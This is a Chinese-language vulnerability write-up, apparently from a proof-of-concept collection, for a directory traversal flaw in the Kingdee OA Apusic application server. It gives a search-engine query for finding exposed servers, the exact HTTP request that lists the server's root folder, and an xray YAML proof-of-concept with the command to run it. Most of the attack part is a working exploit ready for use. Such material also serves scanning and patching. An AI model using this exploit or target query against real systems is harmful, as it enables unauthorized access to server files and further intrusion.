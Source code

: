 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞
## 漏洞描述

金蝶Apusic应用服务器是国内第一个通过J2EE测试认证的应用服务器，全球第四家获得JavaEE 5.0认证授权的产品，完全实现J2EE等企业计算相关的工业规范及标准代码简洁优化，具备了数据持久性、事务完整性、消息传输的可靠性、集群功能的高可用性、以及跨平台的支持等特点。金蝶Apusic应用服务器server_file处存在目录遍历漏洞，攻击者可以从其中获取网站路径等敏感信息进一步攻击。

## 影响版本
```
金蝶OA 9.0  Apusic应用服务器(中间件)
```

## 网络测绘
```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 环境搭建

-
## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201731447.png)


## 数据包
```
GET /admin/protected/selector/server_file/files?folder=/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

## YAML代码
```
name: poc-yaml-kingdee-apusic-server-file-traversal
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /admin/protected/selector/server_file/files?folder=/
    expression: response.status==200 && response.body.bcontains(b'"total":') && response.body.bcontains(b'"rows":') && response.body.bcontains(b'"name":') && response.body.bcontains(b'"path":') && response.body.bcontains(b'"folder":')
expression: r0()
detail:
  author: klear
  links:
    - https://vuls.info/PeiQi/wiki/oa/%E9%87%91%E8%9D%B6OA/%E9%87%91%E8%9D%B6OA%20Apusic%E5%BA%94%E7%94%A8%E6%9C%8D%E5%8A%A1%E5%99%A8-%E4%B8%AD%E9%97%B4%E4%BB%B6%20server_file%20%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/?h=apusic

```

## xray调用

```
xraypro  --config ./debug.yaml ws --poc poc-yaml-kingdee-apusic-server-file-traversal.yml --url xx

```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201732070.png)
